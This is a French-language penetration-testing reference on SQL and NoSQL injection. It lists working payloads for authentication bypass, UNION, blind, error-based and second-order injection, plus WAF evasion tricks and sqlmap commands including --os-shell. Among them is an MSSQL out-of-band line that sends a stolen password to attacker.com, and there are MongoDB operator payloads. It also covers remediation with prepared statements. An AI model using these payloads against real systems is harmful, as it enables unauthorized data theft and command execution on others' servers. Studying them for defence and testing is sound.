

## SQL et NoSQL Injection

Cette documentation détaille les méthodologies d'identification, d'exploitation et de contournement des vulnérabilités d'injection SQL et NoSQL.

### Chaîne d'attaque SQL Injection



## Introduction aux SQL Injections

Une **SQL Injection (SQLi)** est une vulnérabilité permettant d'injecter des requêtes malveillantes dans une application pour manipuler la base de données. Les impacts incluent le vol de données, le contournement d'authentification, la modification de données ou l'exécution de commandes système.

### Fonctionnement
Une requête non sécurisée interprète les entrées utilisateur comme du code SQL.
Exemple : `SELECT * FROM users WHERE username = 'admin' AND password = 'password123';`
Injection : `' OR 1=1 --` transforme la requête en :
`SELECT * FROM users WHERE username = '' OR 1=1 -- ' AND password = '';`

## Types de SGBD et syntaxe

| SGBD | Port par défaut | Commentaires | Concaténation | Exécution OS |
| :--- | :--- | :--- | :--- | :--- |
| **MySQL** | 3306 | `--` ou `#` | `CONCAT()` | `SELECT LOAD_FILE()` |
| **PostgreSQL** | 5432 | `--` | `||` | `COPY ... TO PROGRAM` |
| **MSSQL** | 1433 | `--` | `+` | `EXEC xp_cmdshell` |
| **Oracle** | 1521 | `--` | `||` | `DBMS_SCHEDULER` |
| **SQLite** | N/A | `--` | `||` | N/A |

> [!warning] Prérequis
> Identifier le SGBD avant toute tentative d'exploitation.

## Analyse de code source pour identifier les vulnérabilités

L'analyse statique (SAST) permet d'identifier les points d'entrée non sécurisés. Rechercher les fonctions qui concatènent directement les entrées utilisateur :

- **PHP** : `mysqli_query($conn, "SELECT * FROM users WHERE id = " . $_GET['id']);`
- **Python (Flask/SQLAlchemy)** : `db.session.execute("SELECT * FROM users WHERE name = '%s'" % username)`
- **Java (JDBC)** : `statement.executeQuery("SELECT * FROM users WHERE id = " + id);`

Rechercher l'absence de **Prepared Statements** et l'utilisation de fonctions de formatage de chaînes dangereuses.

## Détection manuelle et automatique

### Détection manuelle
- **Test apostrophe** : `id=1'` provoque une erreur SQL si vulnérable.
- **Opérateur logique** : `id=1' OR 1=1 --` pour contourner l'authentification.
- **UNION SELECT** : `id=-1 UNION SELECT 1,2,3,4` pour déterminer le nombre de colonnes.

### Détection avec **sqlmap**
- Test de vulnérabilité : `sqlmap -u "http://target.com/index.php?id=1" --dbs --batch`
- Technique UNION : `sqlmap -u "http://target.com/index.php?id=1" --technique=U`
- Technique Blind : `sqlmap -u "http://target.com/index.php?id=1" --technique=B`

## Injections SQL dans les en-têtes HTTP

Les injections ne se limitent pas aux paramètres GET/POST. Les en-têtes sont souvent loggés ou utilisés pour des requêtes SQL (ex: statistiques, logs d'accès).

- **User-Agent** : `sqlmap -u "http://target.com" --user-agent="1' AND 1=1--"`
- **Referer** : `sqlmap -u "http://target.com" --referer="1' AND 1=1--"`
- **Cookie** : `sqlmap -u "http://target.com" --cookie="id=1'"`

## Types d'attaques SQLi

### UNION-based
Permet de combiner des requêtes et d'afficher les résultats.
1. `ORDER BY X` pour trouver le nombre de colonnes.
2. `UNION SELECT 1,database(),user()` pour extraire des informations.

### Boolean-based Blind
La page réagit différemment selon que la condition est vraie ou fausse.
- `AND SUBSTRING((SELECT database()),1,1)='a'`

### Time-based Blind
Le serveur est forcé d'attendre si la condition est vraie.
- `AND IF(SUBSTRING((SELECT database()),1,1)='a', SLEEP(5), 1)`

### Error-based
Exploite les messages d'erreur pour extraire des données.
- `AND EXTRACTVALUE(1, CONCAT(0x7e, database(), 0x7e))`

### Second-Order SQL Injection
La charge utile est stockée dans la base de données lors d'une première requête, puis exécutée lors d'une seconde requête (ex: mise à jour de profil).
1. **Injection** : `UPDATE users SET username = 'admin\'--' WHERE id = 1;`
2. **Déclenchement** : La requête suivante `SELECT * FROM logs WHERE username = '$username'` devient `SELECT * FROM logs WHERE username = 'admin'--'`

### Out-of-Band (OOB) SQL Injection
Utilisée quand les réponses ne sont pas affichées et que le temps est filtré. Nécessite un serveur externe (ex: Burp Collaborator).
- **MSSQL** : `DECLARE @host varchar(1024); SELECT @host = (SELECT TOP 1 password FROM users) + '.attacker.com'; EXEC('master..xp_dirtree "\\' + @host + '\a"');`

### Stacked Queries
Exécution de plusieurs requêtes séparées par `;`.
> [!danger] Risque
> `DROP TABLE` peut détruire la base de données cible.

## Bypass WAF et protections

> [!tip] Astuce
> Utiliser **--tamper** dans **sqlmap** pour contourner les WAFs basiques.

- **Obfuscation** : `SeLeCt`, `/**/` au lieu d'espaces.
- **Encodage** : URL, Base64, HEX.
- **Tamper scripts** : `randomcase`, `between`, `space2comment`.

## Exécution de commandes système

> [!danger] Attention
> **xp_cmdshell** est désactivé par défaut sur MSSQL. L'exécution de commandes système peut rendre le système instable.

- **MySQL** : `SELECT sys_exec('whoami');`
- **MSSQL** : `EXEC xp_cmdshell 'whoami';`
- **sqlmap** : `--os-cmd="whoami"` ou `--os-shell`

## NoSQL Injection (MongoDB)

### Authentication Bypass
```json
{"username": {"$ne": null}, "password": {"$ne": null}}
```

### Exfiltration de données
- **Bruteforce** : `{"username": "admin", "password": {"$regex": "^a"}}`
- **$where** : `{"$where": "this.username=='admin' && this.password[0]=='a'"}`

### Outils NoSQL
- **NoSQLMap** : Scanner dédié.
- **Burp Suite** : Manipulation des requêtes JSON.

## Remédiation et sécurisation

La protection contre les injections repose sur la séparation stricte du code et des données.

- **Prepared Statements (Parameterized Queries)** :
  ```php
  $stmt = $pdo->prepare('SELECT * FROM users WHERE email = :email');
  $stmt->execute(['email' => $email]);
  ```
- **Validation stricte** : Utiliser des listes blanches (whitelisting) pour les entrées utilisateur.
- **Principe du moindre privilège** : L'utilisateur de la base de données ne doit pas avoir accès aux procédures système (ex: `xp_cmdshell`).
- **WAF** : Déploiement de règles pour filtrer les patterns d'injection connus.

---
*Sujets liés : Web Application Enumeration, Authentication Bypass, Privilege Escalation, Webshells, Burp Suite.*